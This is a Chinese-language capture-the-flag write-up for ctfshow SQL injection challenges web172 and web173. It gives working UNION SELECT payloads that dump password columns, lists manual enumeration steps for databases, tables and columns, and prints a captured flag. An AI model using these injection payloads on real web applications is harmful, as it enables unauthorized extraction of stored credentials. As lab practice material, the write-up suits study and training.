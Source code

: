    /api/?id=1' union select 1,(select group_concat(password) from ctfshow_web.ctfshow_user),database()%23

   查询password发现没有flag

   查另一个表 ctfshow_user2

   /api/?id=1' union select 1,(select group_concat(password) from ctfshow_web.ctfshow_user2),database()%23

   看到flag

   ![](.\SQL注入\web172\完成注入.png)



### web173

考查sql基础

api/?id= 还是一如既往，开始手动注入

1. 闭合为1’
2. order by 检查有3段
3. 三段均可显示，nice
4. 数据库名：ctfshow_web
5. 表名：information_schema,test,mysql,performance_schema,ctfshow_web
6. ctfshow_web列名：ctfshow_user,ctfshow_user2,ctfshow_user3
7. ctfshow_user行名：没有
8. ctfshow_user2行名：没有
9. ctfshow_user3行名：id,username,password
10. ?id=1' union select id,username,password from ctfshow_user3%23，得到ctfshow{48d10635-f753-4e3a-bd14-b11b924dc67c}
